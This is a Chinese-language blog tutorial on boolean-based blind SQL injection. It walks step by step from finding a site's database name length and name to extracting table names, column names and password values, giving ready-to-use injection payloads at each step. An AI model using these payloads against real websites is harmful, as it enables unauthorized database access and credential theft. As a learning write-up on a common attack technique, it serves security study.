```yaml
---
title: SQL注入--布尔盲注
date: 2020-03-05 15:04:05
tags: SQL注入
categories: 技术
photos: http://pic.netbian.com/uploads/allimg/180413/121552-152359295246db.jpg
---
```




前不久又学习了sql注入的布尔盲注，现在总结一下。
**布尔盲注的前提：没有显示位，没有sql语句执行错误的信息（和联合查询就不同了）。只能通过页面返回正常不正常来判断是否存在注入。**

### 1.当然第一步还是判断闭合符号，这是基础。这都搞不了，下面就无法进行了。
### 2.第二部就是判断数据库的长度。
  我们需要知道这一函数   **1' and (length(database())=8)--+**，通过它来判断数据库的长度，当然=可以换成 >,<  ,但是无论怎么换我们都是要缩小数据库长度的范围，最终确定数据库的长度。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200305204807114.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200305204830900.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
上面输入8，页面返回正常；然而输入9就出现异常。从而就可以判断出数据库名称的长度为8。
### 3.判断数据库名。
我们要使用     **1' and (ascii(substr(database(),1,1))>97)--+**，来一一判断数据库的ascii值。最终得到数据库的名称。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200305210117120.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020030521012519.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
在上面输入114发现页面正常，115却页面不正常，从而判断出数据库第一个的开头的ascii值为115，也就是s。
我们需要了解相关的函数：
**length()返回字符串的长度
substr()截取字符串的字符
    database()，返回当前数据库名
    第一个1，表示截取字符串的起始位置。    第二个1，表示截取字符串长度    语句作用：判断第一个库第一个字符是什么
ascii()将字符串转换成其ASCII码**
把第一个1换成2，就会出现第二个字符的值。以此轮回，最终就会确定数据库的名称。
### 4.爆出表名。

```
?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))>1 --+
```
同样也是通过ascii来一一判断出表名。通过修改 limit 0,1 来获取其他表名。
### 5.曝出列名。

```
?id=1' and (ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)))>1 --+
```
也是修改limit后面的值来爆出列名。
### 6.爆值。

```
?id=1' and (ascii(substr(( select password from users limit 0,1),1,1)))>1--+  
```
同上。
这个过程是非常漫长的。我们也有其他的方法进行盲注。用python脚本，和burp更加简单。
大佬博客[burp进行盲注](https://www.cnblogs.com/hackxf/p/8893245.html)
[布尔盲注](https://blog.csdn.net/weixin_40709439)
小白持续更新中！！！

